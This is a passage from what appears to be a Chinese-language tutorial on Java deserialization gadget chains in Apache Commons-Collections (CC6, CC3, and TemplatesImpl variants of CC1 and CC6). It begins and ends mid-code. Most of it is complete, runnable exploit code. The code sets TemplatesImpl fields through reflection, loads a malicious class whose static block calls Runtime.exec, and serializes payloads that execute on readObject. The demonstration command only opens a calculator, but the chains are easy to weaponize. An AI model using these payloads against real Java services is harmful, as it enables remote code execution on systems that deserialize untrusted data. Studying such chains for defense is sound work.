public class Main {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object,Object> hashMap = new HashMap<Object,Object>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"aaa");

        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");
        hashMap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryField = LazyMap.class.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(decoratelazyMap,chainedTransformer);


        serialize(expmap);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## 总结

```
xxx.readObject()
	HashMap.put()
	HashMap.hash()
		TiedMapEntry.hashCode()
		TiedMapEntry.getValue()
			LazyMap.get()
				ChainedTransformer.transform()
					InvokerTransformer.transform()
						Runtime.exec()
```

---

# Commons-Collections CC3链

CC3链和之前的CC1和CC6区别很大，CC1、CC6链是通过函数调用`Runtime.exec()`进行命令执行，并且很多时候服务器代码黑名单中经常会过滤或者禁用`Runtime`

CC3使用的是动态加载类机制来实现自动执行恶意代码，即代码执行而非命令执行。

首先先追一下TemplateImpl动态类加载的链子

## TemplatesImpl 解析

链子流程图



首先是`loadClass()`方法，从已加载的类缓存、父加载器等位置寻找类，在没有找到的情况下，执行 `findClass()`。

```
    protected Class<?> loadClass(String name, boolean resolve)
        throws ClassNotFoundException
    {
        synchronized (getClassLoadingLock(name)) {
            // First, check if the class has already been loaded
            Class<?> c = findLoadedClass(name);
            if (c == null) {
                long t0 = System.nanoTime();
                try {
                    if (parent != null) {
                        c = parent.loadClass(name, false);
                    } else {
                        c = findBootstrapClassOrNull(name);
                    }
                } catch (ClassNotFoundException e) {
                    // ClassNotFoundException thrown if class not found
                    // from the non-null parent class loader
                }

                if (c == null) {
                    // If still not found, then invoke findClass in order
                    // to find the class.
                    long t1 = System.nanoTime();
                    c = findClass(name);

                    // this is the defining class loader; record the stats
                    sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
                    sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
                    sun.misc.PerfCounter.getFindClasses().increment();
                }
            }
            if (resolve) {
                resolveClass(c);
            }
            return c;
        }
    }
```

---

`findClass()`方法

- 根据名称或位置加载 .class 字节码,然后使用 defineClass，代码实例如下。
- 通常由子类去实现

```
protected Class<?> findClass(String name) throws ClassNotFoundException {
    throw new ClassNotFoundException(name);
}
```

`defineClass()`方法

```
    protected final Class<?> defineClass(byte[] b, int off, int len)
        throws ClassFormatError
    {
        return defineClass(null, b, off, len, null);
    }

```

```
class NetworkClassLoader extends ClassLoader {
        String host;
        int port;

         public Class findClass(String name) {
            byte[] b = loadClassData(name);
             return defineClass(name, b, 0, b.length);
         }

         private byte[] loadClassData(String name) {
             // load the class data from the connection
         }
}
// 子类的实现方式
```

- `defineClass()` 的作用是处理前面传入的字节码，将其处理成真正的 Java 类。

> 此时的 `defineClass()` 方法是有局限性的，因为它只是加载类，并不执行类。若需要执行，则需要先进行 `newInstance()` 的实例化。

并且现在`defineClass()`方法的作用域是`protected`，我们需要找到`public`的类，这样的类才能被其他类去调用，我们find usages，找哪里有重写的`defineClass`

首先先找到这个`defineClass`

```
    protected final Class<?> defineClass(String name, byte[] b, int off, int len)
        throws ClassFormatError
    {
        return defineClass(name, b, off, len, null);
    }

```

然后查找用法



在 `TemplatesImpl` 类的 `static class TransletClassLoader` 中找到了我们能够运用的类。

这里没有作用域，所以是`default`，只能在这个包里调用，继续在这个类中查找用法

---

找到`defineTransletClasses()`



发现这个方法是`private`私有方法，继续查找调用

---

发现`getTransletInstance()`



发现这里给class赋完值之后调用了`newInstance()`，成功初始化类，这样就能执行我们的代码了

---

依然是`private`，继续追，找到`newTransformer()`方法



作用域是public，不需要再往下追了，接下来我们开始利用。

## TemplatesImpl 利用

简单构造

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
import java.util.concurrent.ExecutionException;


public class cc3 {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templatesimpl = new TemplatesImpl();
        templatesimpl.newTransformer();


    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

这里我们肯定不能直接调用，我们要先看看需要赋哪些值

`getTransletInstance()`

```
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();
            
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            translet.postInitialization();
```

可以看到，这里`_name`需要赋值，然后`_class`不需要赋值，因为我们需要调用`defineTransletClasses()`

继续跟进到`defineTransletClasses()`

```
 private void defineTransletClasses()
        throws TransformerConfigurationException {

        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }
```

这里需要给`_bytecodes`赋值

```
        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
                }
            });
```

然后这里需要给`_tfactory`赋值，因为这里需要**触发 `getExternalExtensionsMap()` 方法的调用**

- 如果 `_tfactory` 是 `null`，这里会抛出 **NullPointerException**，导致整个利用链失败

  所以这里总共有三个地方需要赋值

---

### POC构造

在写poc 之前，先写一个 Calc.class 的恶意类并编译。

```
import java.io.IOException;  
  
public class Calc {  
    static {  
        try {  
            Runtime.getRuntime().exec("calc");  
 } catch (IOException e){  
            e.printStackTrace();  
 }  
    }  
}
```

这里我们编写静态代码块，在类初始化时就会自动执行代码

```
byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
byte[][] codes = {evil};
```

然后我们的poc在赋值的时候需要查看这三个变量对应的数据类型

---

### 完整EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;


public class cc3 {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
        templatesimpl.newTransformer();


    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

赋值都结束了，执行一下发现这里报了空指针错误，发现出错点在`defineTransletClasses`



这里调试一下，发现这里_auxClasses我们没有赋值，他会调用put方法，由于是null就会报空指针错误



并且这里下面会判断

```
 if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
```

由于我们上面的`_transletIndex`值为-1，这里也会报错

所以我们给_auxClasses赋值没有意义，我们直接让程序执行到这里面去

```
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
```

这里需要让执行代码的类的父类为这个类



### 恶意类构造

并且这个类`AbstractTranslet`是抽象类，继承之后还得实现抽象方法。直接用idea自动实现即可

**Calc.java**

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Calc extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

重新编译成class，然后再次执行我们的完整EXP即可

---

### CC1 链的 TemplatesImpl 的实现方式

我们单独的Templatesimpl的逻辑已经完成



现在我们只要调用`Templatesimpl.newTransfomer()`方法就能执行任意代码了

现在我们需要Templatesimpl与前面的CC1链连起来

将传参设置为动态加载的字节码。并且前面的链子不变。

暂时的EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;


public class cc3 {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());

//        templatesimpl.newTransformer();


        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(templatesimpl),
            new InvokerTransformer("newTransformer",null,null),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(1);
    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

成功弹出计算器

---

接下来是把 CC1 链的前半部分拿进去。

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc3 {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());

//        templatesimpl.newTransformer();


        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(templatesimpl),
            new InvokerTransformer("newTransformer",null,null),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");

        Map<Object,Object> transformedmap = TransformedMap.decorate(hashMap, null, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");

    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

---

然后是 Yso 正版链子的 TemplatesImpl 的实现方式

EXP 如下

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC1 Yso 的正版链子，用 TemplatesImpl 实现 EXPpublic class CC1YsoTemplatesEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates, "Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates, codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //     templates.newTransformer();  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(templates), // 构造 setValue 的可控参数  
 new InvokerTransformer("newTransformer", null, null)  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(invocationHandler);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

---

### CC6 链的 TemplatesImpl 的实现方式

直接EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc6 {
    public static void main(String[] args) throws Exception{

// 用 TemplatesImpl 实现 EXPpublic class CC6TemplatesEXP

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",null,null),
        };
        
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        
        HashMap<Object,Object> hashMap = new HashMap<Object,Object>();
        Map decoratelazyMap = (LazyMap) LazyMap.decorate(hashMap,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratelazyMap,"aaa");
        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");
        hashMap.remove("aaa");


        // 在 put 之后通过反射修改值
        Class c = LazyMap.class;
        Field factoryField = LazyMap.class.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(decoratelazyMap,chainedTransformer);

        
        serialize(expmap);
